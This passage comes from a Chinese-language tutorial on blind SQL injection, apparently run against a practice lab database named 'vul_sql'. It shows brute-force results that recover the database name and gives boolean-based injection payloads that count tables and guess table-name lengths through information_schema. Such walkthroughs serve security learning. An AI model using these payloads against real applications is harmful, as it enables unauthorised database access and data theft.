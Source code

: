 然后点击 `Start attack` ，爆破完成之后点击 `Length` 进行排序<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1614932238539.png)

我们把爆破结果摘选出来
> 1 > 118--v<br>
> 2 > 117--u<br>
> 3 > 108--l<br>
> 4 > 95  --_<br>
> 5 > 115--s<br>
> 6 > 113--q<br>
> 7 > 108--l<br>
> database_name：vul_sql

得到数据库之后，接下来进行表的猜解

跟数据库操作差不多，先判断表的个数 `t%' and (select count(table_name) from information_schema.tables where table_schema='vul_sql')=3 %23`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1614934470673.png)

判断出表个数为 3 个，然后对每个表进行爆破猜解，步骤跟猜解数据库的时候差不多

猜解第一个表的长度 `t%' and (select length(concat(table_name)) from information_schema.tables where table_schema='vul_sql' limit 0,1)=5 %23` ，长度为5<br>